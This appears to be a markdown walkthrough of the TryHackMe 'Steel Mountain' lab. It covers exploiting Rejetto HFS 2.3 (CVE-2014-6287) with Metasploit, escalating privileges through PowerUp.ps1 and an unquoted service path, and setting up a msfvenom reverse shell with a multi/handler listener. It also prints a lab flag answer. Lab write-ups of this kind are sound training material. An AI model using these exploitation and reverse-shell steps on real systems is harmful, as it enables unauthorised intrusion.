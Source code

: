 # Steel Moutain Wlakthrough
### Link
- https://tryhackme.com/room/steelmountain
------------------------
### Task 1 : Introduction
- Who is the employee of the month?
    - Check the source code of the web page
    - Picture: [Steel_Moutain_1.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_1.png)
    - **Answer** : Bill Harper
------------------------
### Task 2 : Initial Access
- Scan the machine with nmap. What is the other port running a web server on?
    - sudo nmap -sC -sV -oN ./nmap_steelmountain_result 10.10.117.67
    - Picture:<br>[Steel_Moutain_2.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_2.png) <br>[Steel_Moutain_3.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_3.png)
    - **Answer** : 8080
- Take a look at the other web server. What file server is running?
    - From nmap scan, we know the port 8080 is used for another file server
        - Connect to [IP]:8080
        - Under Server Information, you have a link "HttpFileServer 2.3"
        - Click on this link and you are redirected to http://www.rejetto.com/hfs/
        - Picture: [Steel_Moutain_4.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_4.png)
        - **Answer**  : rejetto http file server
- What is the CVE number to exploit this file server?
    - Visit https://www.exploit-db.com/search
    - Search exploit for rejetto http file server 2.3
    - Picture:<br>[Steel_Moutain_5.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_5.png)<br>[Steel_Moutain_6.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_6.png)
    - **Answer** : 2014-6287
- Use Metasploit to get an initial shell. What is the user flag?
    - Start metasploit
        - msfconsole
    - find the exploit
        - search exploit rejetto
        - Picture: [Steel_Moutain_7.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_7.png)
    - Select the exploit
        - use [payload number]
        - Picture: [Steel_Moutain_8.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_8.png)
    - Check the options
        - options
        - Picture: [Steel_Moutain_9.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_9.png)
    - Indicate the remote hosts ip and port (This server run on port 8080)
        - set RHOSTS [IP]
        - set RPORT [port]
        - Picture: [Steel_Moutain_10.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_10.png)
    - Chenge the Local IP with your IP
        set LHOST [IP]
    - Execute
        - run
        - Picture: [Steel_Moutain_11.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_11.png)
    - Remeber, the machine is a Windows machine.Not all  Linux command work ^_^
    - Move to C:\Users\bill\Desktop
    - Open user.txt
    Picture: [Steel_Moutain_12.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_12.png)
    - **Answer** : ??b04763b6fcf51fcd7c13abc7db4fd365
------------------------
### Task 3 - Privilege escalation
- download the script Link: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- Upload the script through meterpreter
    - upload [path]/PowerUp.ps1
    - Picture: [Steel_Moutain_13.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_13.png)
- Load powershell
    - load powershell
    - Picture: [Steel_Moutain_14.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_13.png)
- Access powershell
    - powershell_shell
    - Picture: [Steel_Moutain_15.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_15.png)
- Execute the powershell script
    - . .\PowerUp.ps1  
- Perform a check
    - Invoke-AllChecks
    - Picture: [Steel_Moutain_16.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_16.png)
- Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
    - Picture: [Steel_Moutain_17.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_17.png)
    - **Answer** : AdvancedSystemCareService9
> The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able.
> This means we can replace the legitimate application with our malicious one, restart the service,which will run our infected program!
- Use msfvenom to generate a reverse shell as an Windows executable.
    - Picture: [Steel_Moutain_18.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_18.png)
    - Exit
    - put the current meterpreter in "Background"
        -  Picture: [Steel_Moutain_19.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_19.png)
    - Preapare the reverse tcp
        - use exploit/multi/handler
        - set payload windows/shell/reverse_tcp
            - Picture: [Steel_Moutain_20.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_20.png)
        - Check the options --> Show Options
            - set LHOSTS [Local machine IP]
            - set LPORT [port] --> Same port defined in the reveserse tcp
            - exploit -j
                - Picture: [Steel_Moutain_21.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_21.png)
